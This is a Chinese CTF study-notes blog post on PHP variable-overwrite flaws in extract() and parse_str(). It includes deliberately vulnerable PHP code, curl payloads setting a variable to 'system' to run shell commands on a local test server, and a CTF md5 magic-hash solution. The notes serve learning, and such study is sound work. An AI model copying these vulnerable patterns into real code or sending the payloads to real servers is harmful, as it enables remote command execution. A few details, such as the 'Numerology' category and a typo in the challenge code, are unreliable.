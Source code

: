 ```yaml
---
title: 20241207CTF学习笔记4
date: 2024-12-07
tags:
 - CTF
 - CTFLearn
categories:
   - 命理学 Numerology
isShowComments: true
publish: true










---
```


<Boxx/>

从0开始学习CTF，了解CTF基本规则、方法，这是开始视频学习的第4天

[[toc]]

- 视频地址【[传送门](https://www.bilibili.com/video/BV1Lh411F7s8/)】

<!-- more -->

# 第4章：web基础题-03-变量覆盖问题

### 变量覆盖：

#### **定义：**用传参的值替换原有变量的值

#### **举例：**

```php
<?php
$a="abc";
$a="def";
echo($a);
?>
```

变量覆盖常考的三个函数：

1. Extract() 最重要
2. Parse_str()
3. Import_requests_variables()//deprecated(弃用) in php>=5.4.0

### Extract()函数：

![image-20241207211457286](/img/ctfLearn/image-20241207211457286.png)

#### **定义：**

将数组的键做为变量，将数组的值作为变量的值

图中这里就是用Cat覆盖掉了Original，我们Extract()函数的本质是为了开发，只是演变歪了

#### **入侵示例：**

```php
<?php
$arr = $_GET['arr'];
extract($arr);
var_dump($d);
@$d($_POST['a']);
?>
```

```shell
//此时我们发送请求
curl http://127.0.0.1:8088/test.php?arr[d]=system
-X POST -d "a=ls"
```

#### **入侵示例解释：**

我们传入的arr[d]=system，在给到extract()函数以后，生成了一个$d的变量，变量的值是system，此时用var_dump()函数，它应该会显示string 'system' (length=6)等信息，走到下一行，@system执行外部命令，用的是POST方法传入的参数a，a的值可以是linux命令，比如ls、cat等。

### Parse_str()函数：

#### **定义：**

把查询字符串解析到变量中。

#### **方法举例：**

```php
<?php
parse_str("name=Bill&age=60");
echo $name."<br>";
echo $age;
?>
```

```php
<?php
parse_str("name=Bill&age=60",$myArray);
print_r($myArray);
?>
```

#### **入侵示例：**

对php版本有要求，视频中用的是php5

```php
<?php
$arr = $_GET['arr'];
parse_str($arr);
var_dump($d);
@$d($_POST['a']);
?>
```

```
//此时我们发送请求
curl http://127.0.0.1:8088/test.php?arr=d=system
-X POST -d "a=ls"
```

#### **入侵示例解释：**

我们传入的arr=d=system，在给到parse_str()函数以后，生成了一个$d的变量，变量的值是system，此时用var_dump()函数，它应该会显示string 'system' (length=6)等信息，走到下一行，@system执行外部命令，用的是POST方法传入的参数a，a的值可以是linux命令，比如ls、cat等。

### **结论：**

变量覆盖不管是用extract()函数还是parse_str()函数，变量覆盖或者是创建变量本身都没有安全风险，但后续的代码有部分危险操作，所以导致了整个的风险

### 综合题

题目源代码：

```php
<?php
if(!lisset($_GET['id'])){
	show_source(__FILE__);
	die;
}
include_once('flag.php');
$a='TESTCTF';
$id=$_GET['id'];
@parse_str($id);
if($a[0]!='QNKCDZ0' && md5($a[0]) == md5('QNKCDZ0')){
	die($flag);
}else{
	die('emmm');
}
```

我们需要传入以下参数

```java
//首先，我们看看md5('QNKCDZ0')的值，发现是个科学计数法的形式，我们需要让md5($a[0])也是一个科学计数法的形式，就能让他两弱等于
//其次，我们看到@parse_str($id);需要我们理解parse_str的用法，传入一个a=b的形式，同时把a替换为a[0]，把b替换为s878926199a，让它满足a[0]不是QNKCDZ0且md5相等的条件

?id=a[0]=s878926199a
```

